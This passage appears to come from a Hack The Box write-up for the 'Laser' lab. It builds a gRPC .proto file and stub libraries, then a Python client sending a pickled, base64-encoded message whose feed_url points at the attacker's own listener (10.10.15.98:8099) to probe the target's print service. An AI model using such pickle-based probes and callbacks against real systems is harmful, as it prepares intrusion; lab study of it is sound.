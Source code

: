 ```text
service FooService {
  rpc GetSomething(FooRequest) returns (FooResponse);
}
```

> The first line of the file specifies that you're using proto3 syntax: if you don't do this the protocol buffer compiler will assume you are using proto2. This must be the first non-empty, non-comment line of the file.

In the documentation for grpc and protocol buffers there were examples of how to communicate with this type of service using Python.

* [https://developers.google.com/protocol-buffers/docs/pythontutorial](https://developers.google.com/protocol-buffers/docs/pythontutorial) 
* [https://grpc.io/docs/languages/python/quickstart/](https://grpc.io/docs/languages/python/quickstart/)

```text
syntax = "proto3";

service Print {

    rpc Feed(Content) returns (Data) {}

}

message Content {

string data = 1;

}

message Data {

string feed = 1;

}
```

Using this information, and the information from the PDF document I recovered, I created the above `.proto` file to tell the grpc client how to communicate with this particular service.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. laser.proto
```

Next I ran the command from the documentation for making the python libraries that would enable communication with the server. This created two files: `laser_pb2_grpc.py` and `laser_pb2.py`.

```python
import laser_pb2_grpc
import laser_pb2
import grpc
import base64
import pickle

def test():
    message = '{"version": "v1.0", "title": "Printer Feed", "feed_url": "http://10.10.15.98:8099"}'
    enc_message = base64.b64encode(pickle.dumps(message))
    #Use insecure channel since we do not have credentials
    channel = grpc.insecure_channel('printer.laserinternal.htb:9000')
    stub = laser_pb2_grpc.PrintStub(channel)
    response = stub.Feed(laser_pb2.Content(data=enc_message))
    print("Client received: " + response.message)

test()
```